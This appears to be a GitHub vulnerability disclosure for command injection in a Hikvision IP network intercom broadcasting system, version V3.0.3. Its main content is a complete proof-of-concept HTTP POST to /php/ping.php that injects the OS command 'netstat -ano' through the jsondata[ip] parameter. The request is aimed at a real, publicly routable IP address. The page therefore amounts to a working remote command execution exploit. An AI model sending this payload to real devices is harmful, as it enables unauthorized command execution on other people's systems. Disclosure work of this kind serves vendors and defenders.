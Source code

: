 There is a command execution vulnerability in the IP network intercom broadcasting system of Hangzhou Hikvision Digital Technology Co., Ltd.

version:V3.0.3_20201113_RELEASE(HIK)

1.The login interface is as shown below

![image](https://github.com/willchen0011/cve/assets/13689053/fac8131c-e8be-4151-af34-535e8bc0686d)


2.Execute the command through the following POC

```
POST /php/ping.php HTTP/1.1
Host: 219.128.48.234:4080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 51
Origin: http://219.128.48.234:4080
Connection: close
Referer: http://219.128.48.234:4080/html/system.html
X-Forwarded-For: 1.1.1.1

jsondata%5Btype%5D=99&jsondata%5Bip%5D=netstat -ano
```

3.Execute the ```netstat -ano``` command to test.
![image](https://github.com/willchen0011/cve/assets/13689053/7660a7d3-e8db-42a4-83ea-dc417bb4f298)

